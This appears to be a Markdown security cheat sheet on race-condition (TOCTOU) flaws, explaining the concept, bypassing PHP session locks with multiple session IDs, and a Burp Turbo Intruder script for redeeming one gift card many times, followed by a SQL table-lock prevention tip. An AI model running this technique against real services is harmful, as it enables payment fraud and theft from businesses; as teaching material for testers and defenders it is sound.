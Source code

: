 # Race Condition
- [Overview](#overview)
- [Exploitation](#exploitation)
- [Prevention](#prevention)


## Overview
- A race condition happens when two or more actions happen at nearly the same time, and the final result depends on which action finishes first. If a program doesn't handle this properly, an attacker can "race" the program and change the result in their favor.

- The TOCTOU Problem (Time of Check to Time of Use)
    - This is a common type of race condition. It means:
        - Time of Check: The program checks if it's safe to do something.
        - Time of Use: The program actually does that thing.
    If there's a time gap between these two steps, an attacker can change things in that gap.

- Scenarios:
    - Redeeming a gift card multiple times
    - Rating a product multiple times
    - Withdrawing or transferring cash in excess of your account balance
    - Reusing a single CAPTCHA solution
    - Bypassing an anti-brute-force rate limit
    
## Exploitation
- **PHP Session Files and File Locks**
    - PHP stores sessions in files on the server.
    - When a session is active, PHP locks the session file to prevent simultaneous access.
    - This blocks multiple parallel requests using the same session — they wait for the lock to release.
    - This behavior prevents race condition exploits if all requests share one session.
- Bypass:
    - Use multiple sessions (different session IDs).
    - Each session has its own file, no shared lock.
    - This allows parallel requests, enabling race condition exploitation.


- **Burp Turbo Intruder Exploit**
    - Example:
        - Install Turbo Intruder from Burp Suite > BApp Store.
        - Collect multiple session IDs by sending the login request in Repeater ~5 times. Save the PHPSESSID cookies.
    - Exploit Steps:
        - Buy a gift card & intercept the redeem request — then drop it.
        - Send this redeem request to Turbo Intruder.
    - In Turbo Intruder:
        - Replace the session ID with %s in the Cookie header:
        Cookie: PHPSESSID=%s
        Select or paste the [race.py](https://raw.githubusercontent.com/PortSwigger/turbo-intruder/b5c6e2d614cf8db0e9b02a32dd06119161888e17/resources/examples/race.py) script from Turbo Intruder's GitHub.
        - Add your saved session IDs in the script as payloads.
        ```python
            def queueRequests(target, wordlists):
            engine = RequestEngine(endpoint=target.endpoint,
                                concurrentConnections=30,
                                requestsPerConnection=100,
                                pipeline=False
                                )

            # the 'gate' argument blocks the final byte of each request until openGate is invoked
            for sess in ["p5b2nr48govua1ieljfdecppjg", "48ncr9hc1rjm361fp7h17110ar", "0411kdhfmca5uqiappmc3trgcg", "m3qv0d1qu7omrtm2rooivr7lc4", "onerh3j83jopd5ul8scjaf14rr"]:
                engine.queue(target.req, sess, gate='race1')

            # wait until every 'race1' tagged request is ready
            # then send the final byte of each request
            # (this method is non-blocking, just like queue)
            engine.openGate('race1')

            engine.complete(timeout=60)


            def handleResponse(req, interesting):
                table.add(req)
        ```
    - Start the attack by clicking Attack.
        - If successful, the gift card is redeemed multiple times, increasing your balance.


- **Send in parallel prerequisites (Burp Repeater)**
> [!NOTE]
> To send a group of requests in parallel, the group must meet the following criteria:
> 
>   - All requests in the group must use the same host, port, and transport layer protocols.
>   - HTTP/1 keep-alive must not be enabled for the project.


## Prevention
- Use SQL WRITE locks to prevent simultaneous database access:
```SQL
LOCK TABLES active_gift_cards WRITE, users WRITE;
```
- After processing, release with:
`UNLOCK TABLES;`
- This blocks multiple threads from updating the same data at once, preventing the race condition.
